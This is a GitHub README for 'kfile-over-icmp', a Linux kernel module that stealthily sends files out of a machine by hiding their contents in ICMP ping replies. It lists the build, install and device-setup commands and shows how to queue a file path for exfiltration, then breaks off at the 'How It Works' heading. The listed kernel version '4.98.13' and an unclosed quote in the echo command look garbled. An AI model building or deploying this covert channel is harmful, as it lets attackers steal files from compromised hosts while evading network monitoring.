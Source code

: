 # __kfile-over-icmp__

> **Note**: This LKM was developed using linux kernel version *4.4.10* and *4.98.13*. Should you have problems compiling this module, please check for your kernel version first.

_kfile-over-icmp_ is a loadable kernel module for stealth sending of files over ICMP communication.

## __Usage__
```sh
$ git clone https://github.com/spiderpig1297/kfile-over-icmp.git
$ cd kfile-over-icmp
$ make
$ make install
```
___

Once installed, the module registers a character device from which it gets the paths of the files to send.
Run `dmesg` to retrieve the major number of the device, and then create a node to it using `mknod`:

```sh
$ dmesg | tail

[15132.935862] kfile-over-icmp: LKM loaded
[15132.935864] kfile-over-icmp: registered netfilter hook
[15132.935867] kfile-over-icmp: succesfully registered character device. major: 243

$ mknod /dev/readfile c <MAJOR_GOES_HERE> 0
```

In order to send a file over ICMP, write its (absolute!) path to our newly-created device:

```sh
$ echo "/file/to/send/ > /dev/readfile
```

__From now on, once an ICMP-request (ping) packet will reach the machine, the module will inject the file's data on the ICMP-reply packet.__

For more information, see [How It Works](#how-it-works).

___ 

To uninstall the module, run:

```sh
$ make remove
```

## __How It Works__